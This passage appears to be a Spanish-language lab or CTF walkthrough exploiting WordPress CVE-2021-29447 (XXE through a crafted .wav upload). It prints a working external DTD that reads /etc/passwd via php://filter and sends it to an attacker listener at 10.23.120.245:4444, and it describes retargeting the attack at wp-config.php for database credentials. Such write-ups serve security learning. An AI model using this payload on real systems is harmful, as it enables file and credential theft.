 ### Construcción de la DTD maliciosa

El siguiente paso fue preparar el archivo `malicia.dtd`, que serviría de instrucción remota al parser vulnerable.

En su interior definí:

1. Una entidad `%file` que apuntaba a un recurso local sensible (`/etc/passwd`) usando un stream especial de PHP (`php://filter/...`). Con ello buscaba no solo leer el archivo, sino también obtenerlo en formato legible (codificado en base64 para evitar errores de interpretación).
2. Una entidad `%init` que definía a `%trick`, cuyo objetivo era forzar al parser a enviar el contenido leído hacia mi servidor controlado en `http://10.23.120.245:4444`.

La idea era clara: cuando WordPress procesara el `.wav`, resolvería la DTD, generaría la entidad interna, leería el archivo sensible y finalmente haría una petición HTTP a mi máquina con el contenido embebido como parámetro.

```bash
zikuta㉿zikuta)-[~/Desktop/Wordpress_CVE-2021-29447]
└─$ cat malicia.dtd                                                            
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.23.120.245:4444/?p=%file;'>" >

```


### Observación del comportamiento

Con ambos componentes listos —el `.wav` malicioso y la DTD externa—, el plan estaba completo:

- Subir el archivo `.wav` a la aplicación vulnerable.
- Esperar a que el parser procesara el bloque iXML.
- Revisar en mi listener HTTP si la aplicación hacía la solicitud con el contenido exfiltrado.

Procedemos a subir el archivo malicioso y vamos a abrir un listener http

<img width="1919" height="790" alt="Image" src="https://github.com/user-attachments/assets/f985e5d1-dede-4fce-9216-6b2a5fbcdcaf" />

El servidor se conecta exitosamente y descarga el archivo 

<img width="1918" height="323" alt="Image" src="https://github.com/user-attachments/assets/1c9e9c71-5636-4146-aec3-f3576675601c" />

El éxito de esta explotación confirmaba que la instancia de WordPress era vulnerable al **CVE-2021-29447**. La consecuencia inmediata era la exposición de archivos sensibles del sistema (`/etc/passwd` en el ejemplo).

### Exfiltración de `wp-config.php`

Tras confirmar la vulnerabilidad con la lectura inicial de `/etc/passwd`, el siguiente objetivo natural fue intentar acceder al archivo **`/var/www/html/wp-config.php`**, el cual contiene la configuración crítica de WordPress, incluidas las credenciales de acceso a la base de datos. Para ello, ajusté la entidad definida en la DTD externa, de forma que en lugar de apuntar al archivo de sistema, se dirigiera específicamente al fichero de configuración de WordPress.

<img width="1068" height="77" alt="Image" src="https://github.com/user-attachments/assets/231a7678-5148-462a-8da3-88085416063b" />
